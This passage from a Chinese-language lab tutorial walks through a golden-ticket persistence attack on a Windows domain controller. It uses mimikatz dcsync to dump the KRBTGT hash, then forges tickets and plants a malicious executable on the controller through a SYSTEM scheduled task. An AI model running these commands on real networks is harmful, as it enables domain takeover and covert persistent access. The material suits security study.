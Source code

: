 3、使用mimikatz导出KRBTGT的ntlm hash

```
mimikatz lsadump::dcsync /domain:hack.com /user:krbtgt
```

![image-20230202145716694](https://img.gyxnb.top/img/image-20230202145716694.png)

得到 `b78ec645cc2d18290c5690ele76e827f`

b78ec645cc2d18290c5690e1e76e827f 

lsadump::dcsync /domain:hack.com /user:krbtgt

4、这个时候突然域控下线了，管理员发现的你在控制，把后门清理了

![image-20230202145823056](https://img.gyxnb.top/img/image-20230202145823056.png)

5、因为之前已经记录了关键信息，我们现在就可以伪造任意用户访问域控，windows 2008机器必须是域内用户或 者system用户

```
mimikatz kerberos::tgt 查票
mimikatz kerberos::purge 清票
```

![image-20230202145853051](https://img.gyxnb.top/img/image-20230202145853051.png)

6、使用dir 远程访问域控

```
shell dir \\dc.hack.com\c$
```

![image-20230202145951465](https://img.gyxnb.top/img/image-20230202145951465.png)

7、使用计划任务上线cs

copy恶意文件到域控

```
shell copy c:\users\administrator\desktop\artifact.exe \\dc.hack.com\c$
```

![image-20230202150031471](https://img.gyxnb.top/img/image-20230202150031471.png)

设置计划任务到域控

```
shell schtasks /create /s dc.hack.com /tn test /sc onstart /tr c:\artifact.exe /ru system /f
```

![image-20230202150059194](https://img.gyxnb.top/img/image-20230202150059194.png)

```
shell schtasks /run /s dc.hack.com /i /tn "test"
```

![image-20230202150130353](https://img.gyxnb.top/img/image-20230202150130353.png)

域控重新上线
